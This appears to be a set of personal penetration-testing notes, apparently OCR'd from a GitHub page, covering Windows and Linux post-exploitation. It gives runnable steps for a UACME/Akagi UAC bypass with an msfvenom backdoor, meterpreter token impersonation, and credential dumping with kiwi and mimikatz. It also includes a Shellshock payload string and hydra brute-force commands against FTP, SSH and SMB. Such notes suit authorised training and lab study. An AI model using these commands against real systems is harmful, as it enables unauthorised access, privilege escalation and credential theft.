 UAC     
https://github.com/hfiref0x/UACME you can use metasploit upload command
The idea is the following:
1. you create a backdoor with msfvenom
2. on the victim machine you upload the backdoor and the Akagi you found on UACME github (tips you do it on a temporary dir you create mkdir temp)
3. set up a listener (from metasploit or not) 
4. execute .\Akagi.exe 23 C:\\temp\backdoor.exe
5. ps => then migrate to a process (first colon) with NT AUTHORITY migrate [number]     

Access token impersonation      
If you type **getprivs** in your meterpreter session, you’ll see if you can impersonate or not (if you have **SeImpersonatePrivilege**).    
**Incognito** is a buit-in meterpreter module that allows you to impersonate user token. 
To use it on your meterpreter session you type **load incognito**   
**list_tokens -u** will give you the users you can get a token  
**impersonate_token “[name of the user]”** to impersonate someone, you got the name of the user with the previous command (list_token -u)       


Windows credentials dumping    
On meterpreter you can type **search -f Unattend.xml**      
But you’ll find it on **C:\\Windows\Panther\**
It’s always in base64 => you have to decoded it     
You can dump also credentials with mimikatz     
On meterpreter we have a version of mimikatz named **kiwi**.        
To use it you need privileged access or it’s not working as it access the SAM.      
On meterpreter you type **load kiwi **      
**?** to have the help menu     
You have different commands possible on kiwi like **creds_all** or **lsa_dump_sam** 
If you don’t want to use kiwi => you type (on meterpreter) **upload /usr/share/windows-ressources/mimikatz/x64/mimikatz.exe**
Once launched if you type **privilege::debug** => if the result is 20 ok it means you can use it without issue.     



*LINUX*

Shellshock      
The vulnerability happens after different characters which will execute bash commands           
**() { :; }; /bin/bash -c ‘[your command]’**    
Some Apache servers which used .sh scripts can be vulnerable. You’ll need to find a way where to inject the characters like a HTTP headers (using burp). You target the CGI scripts.        
With metasploit you have a module shellshock.

FTP     
**hydra -L [users wordlist] -P [passwords wordlist] [IP] -t 4 ftp** 

SSH     
**hydra -L [users wordlist] -P [passwords wordlist] [IP] -t 4 ssh**

Samba        
**hydra -L [users wordlist] -P [passwords wordlist] [IP] -t 4 smb**     
You can also use smbmap tool.       
**smbmap -H [IP] -u [user] -p [password]** for user enumeration     
**smbclient -L [IP] -U [user]** for enumeration of shares       
**smbclient //[IP]/[share] -U [user]** to connect to this share
**?** To see all comands we can used        
enum4linux tool     
**enum4linux -a [IP]** to get informations  
-U option => get all users      
-u [user] => connect as     
